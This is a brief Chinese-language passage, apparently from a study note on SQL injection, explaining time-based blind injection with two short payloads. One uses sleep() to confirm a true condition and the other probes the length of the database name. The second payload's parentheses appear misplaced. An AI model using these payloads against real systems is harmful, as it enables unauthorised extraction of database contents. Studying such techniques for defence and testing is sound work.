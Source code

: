 #### 延时注入——无需回显

条件成立延迟五秒，不成立就不延迟

```
and if (1=1,sleep(5),sleep(0))
```

![image-20240318142621715](../图片/image-20240318142621715.png)



延迟五秒，数据库名长度为6

```
and if (length(database()=6),sleep(5),sleep(0))
```
